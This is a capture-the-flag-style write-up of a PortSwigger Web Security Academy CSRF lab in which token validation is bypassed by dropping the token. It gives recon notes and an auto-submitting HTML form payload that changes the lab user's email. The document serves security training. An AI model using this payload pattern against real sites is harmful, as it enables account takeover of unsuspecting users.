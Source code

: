 ```yaml
---
title: 'Lab: CSRF where token validation depends on token being present'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/CSRF/針對CSRF Token與同源政策的繞過手段"
---
```


# Lab: CSRF where token validation depends on token being present
<!-- more -->
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab's email change functionality is vulnerable to CSRF.
* Goal:  To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You can log in to your own account using the following credentials: `wiener:peter`

## Recon
1. Login and update email to trace the package
It's very similar with previous lab $\to$ it contained `CSRF_token` as its carried data:
![](https://i.imgur.com/69FaW1R.png)

2. Try to use 1st method to bypass
![](https://i.imgur.com/Mm1YvZ5.png)
It seems can work properly.

## Exp - Delete `CSRF_token` directly to bypass
Actually, this is totally the same with the first lab's payload
Exploit Payload:
```javascript=
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>history.pushState('', '', '/')</script>

    <form action="https://0aa70059042bf55d80101c7a00930051.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="danger&#64;gmail&#46;com" />
    </form>
    <script>
          document.forms[0].submit();
    </script>
  </body>
</html>
```
:::spoiler Success Screenshot
![](https://i.imgur.com/EN6dFEO.png)
:::

## Reference
[Lab: CSRF where token validation depends on token being present:CSRF](https://blog.csdn.net/ZripenYe/article/details/120793710)
[从0到1完全掌握 CSRF](https://zhuanlan.zhihu.com/p/517735618)